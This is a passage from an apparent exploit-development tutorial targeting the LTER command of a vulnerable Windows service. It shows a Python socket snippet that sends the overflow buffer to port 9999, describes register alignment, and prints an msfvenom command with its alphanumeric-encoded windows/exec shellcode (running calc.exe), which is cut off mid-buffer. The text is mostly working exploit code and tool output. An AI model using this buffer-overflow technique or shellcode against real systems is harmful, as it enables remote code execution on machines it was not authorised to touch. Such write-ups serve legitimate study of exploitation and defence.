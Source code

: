 ```term

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### The alignment seems to have done its work as intended.

![](/assets/img/LTER/12.png)

##### The next step is pointing ESI to the shellcode, to do this, alphanumeric shellcode using the ESI register is generated, and the value of EBX is pushed into the stack and popped into EAX, in order to make the calculations smaller.

```term
root@whitecr0wz:~/Exploit-Dev/LTER# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed BufferRegister=ESI EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 440 (iteration=0)
x86/alpha_mixed chosen with final size 440
Payload size: 440 bytes
Final size of py file: 2145 bytes
buf =  b""
buf += b"\x56\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
buf += b"\x49\x6c\x38\x68\x6c\x42\x37\x70\x43\x30\x33\x30\x63"
buf += b"\x50\x4f\x79\x48\x65\x75\x61\x4f\x30\x31\x74\x6e\x6b"
buf += b"\x36\x30\x76\x50\x6c\x4b\x31\x42\x54\x4c\x6c\x4b\x62"
buf += b"\x72\x64\x54\x4e\x6b\x54\x32\x37\x58\x44\x4f\x6e\x57"
buf += b"\x73\x7a\x47\x56\x70\x31\x79\x6f\x6e\x4c\x55\x6c\x71"
buf += b"\x71\x73\x4c\x75\x52\x44\x6c\x65\x70\x6f\x31\x48\x4f"
buf += b"\x54\x4d\x33\x31\x6a\x67\x49\x72\x39\x62\x30\x52\x31"
buf += b"\x47\x6e\x6b\x76\x32\x36\x70\x4c\x4b\x73\x7a\x77\x4c"
buf += b"\x6e\x6b\x30\x4c\x77\x61\x30\x78\x4a\x43\x43\x78\x37"
buf += b"\x71\x78\x51\x66\x31\x6c\x4b\x42\x79\x31\x30\x45\x51"
buf += b"\x5a\x73\x4c\x4b\x70\x49\x66\x78\x6b\x53\x46\x5a\x31"
```